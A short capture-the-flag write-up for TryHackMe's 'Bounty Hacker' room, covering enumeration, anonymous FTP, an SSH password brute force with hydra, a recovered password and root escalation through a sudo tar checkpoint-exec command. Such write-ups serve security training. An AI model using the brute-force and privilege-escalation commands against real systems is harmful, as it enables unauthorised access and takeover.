




bounty hacker
THM Bounty Hacker
Enumeration
Rustscan

Nmap

Web Directory Search

FTP as Port 21 is running vsftpd (Logged in as anonymous)

we get 2 files. Following are the contents

Foothold
We use hydra to bruteforce ssh with user “lin” and passwords we found in locks.txt
hydra -l lin -p locks.txt -vv 10.10.130.84 ssh

User Password: RedDr4gonSynd1cat3
Privilege Escalation
we check sudo permissions. /bin/tar was allowed to run with sudo.
we check GTFOBins and get the command
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

Thanks !!